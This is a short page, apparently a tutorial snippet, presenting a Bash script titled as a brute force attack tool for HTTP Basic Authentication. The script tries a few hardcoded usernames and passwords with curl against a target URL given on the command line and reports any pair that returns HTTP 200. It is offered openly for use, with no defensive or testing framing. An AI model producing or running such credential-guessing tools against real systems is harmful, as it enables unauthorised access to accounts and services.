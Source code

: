 #### Use Case: Brute Force Attack Tool for HTTP Basic Authentication

Let's create a Bash script that performs a brute force attack on a web application using HTTP Basic Authentication.

**Bash Script:**
```bash
#!/bin/bash
# This is a comment

# Function to perform Brute Force Attack
brute_force_attack() {
    echo "Starting Brute Force Attack..."
    # Define usernames and passwords
    usernames=("admin" "user" "test")
    passwords=("password" "123456" "admin123")

    # Iterate over usernames and passwords
    for username in "${usernames[@]}"; do
        for password in "${passwords[@]}"; do
            echo "Trying credentials: $username:$password"
            status_code=$(curl -s -o /dev/null -w "%{http_code}" -u "$username:$password" "$1")
            if [ "$status_code" == "200" ]; then
                echo "Credentials found: $username:$password"
                exit 0
            fi
        done
    done

    echo "Brute Force Attack finished. No credentials found."
}

# Main function
main() {
    echo "Brute Force Attack Tool for HTTP Basic Authentication"
    echo "------------------------------------------------------"

    # Validate input
    if [ $# -ne 1 ]; then
        echo "Usage: $0 <target_url>"
        exit 1
    fi

    # Perform Brute Force Attack
    brute_force_attack "$1"
}

# Call main function with target URL as argument
main "$@"
```
